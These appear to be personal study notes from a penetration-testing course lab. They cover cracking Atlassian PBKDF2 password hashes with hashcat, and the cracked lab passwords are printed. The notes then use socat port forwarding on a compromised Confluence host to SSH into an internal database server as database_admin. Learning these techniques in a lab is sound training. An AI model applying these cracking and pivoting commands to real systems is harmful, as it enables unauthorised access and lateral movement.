 Hashcat mode number for _Atlassian (PBKDF2-HMAC-SHA1)_ hashes[2](https://portal.offsec.com/courses/pen-200-44065/learning/port-redirection-and-ssh-tunneling-48849/port-forwarding-with-linux-tools-48918/port-forwarding-with-socat-48850#fn-local_id_517-2) is _12001_

Use `fastrack.txt` password list 

`hashcat -m 12001 hashes.txt /usr/share/wordlists/fasttrack.txt`

Successful result:

```
{PKCS5S2}skupO/gzzNBHhLkzH3cejQRQSP9vY4PJNT6DrjBYBs23VRAq4F5N85OAAdCv8S34:P@ssw0rd!
{PKCS5S2}QkXnkmaBicpsp0B58Ib9W5NDFL+1UXgOmJIvwKjg5gFjXMvfeJ3qkWksU3XazzK0:sqlpass123
{PKCS5S2}EiMTuK5u8IC9qGGBt5cVJKLu0uMz7jN21nQzqHGzEoLl6PBbUOut4UnzZWnqCamV:Welcome1234
```

PGDATABASE01 is running an SSH server. 

We can port forward on CONFLUENCE01 to SSH directly from Kali to PGDATABASE01. 

Kill original Socat process. 

Create new port forward to ssh to the database.

`socat TCP-LISTEN:2222,fork TCP:10.4.50.215:22`

![Figure 4: Using Socat to open a port forward from CONFLUENCE01 to the SSH server on PGDATABASE01](https://static.offsec.com/offsec-courses/PEN-200/imgs/prat2/ae6bb27852f848e8c26cbb2eb12443fb-PRAT2_1_4_PortForwardSocatSSH.png)

SSH as database_admin using the cracked password 

```
kali@kali:~$ ssh database_admin@192.168.50.63 -p2222
```

Other port forwarding tools:
- _rinetd_[3](https://portal.offsec.com/courses/pen-200-44065/learning/port-redirection-and-ssh-tunneling-48849/port-forwarding-with-linux-tools-48918/port-forwarding-with-socat-48850#fn-local_id_517-3)
- combine Netcat and a _FIFO_[4](https://portal.offsec.com/courses/pen-200-44065/learning/port-redirection-and-ssh-tunneling-48849/port-forwarding-with-linux-tools-48918/port-forwarding-with-socat-48850#fn-local_id_517-4)
- iptables (if we have root privileges)
	- To be able to forward packets in Linux also requires enabling forwarding on the interface we want to forward on by writing "1" to **/proc/sys/net/ipv4/conf/[interface]/forwarding** (if it's not already configured to allow it).
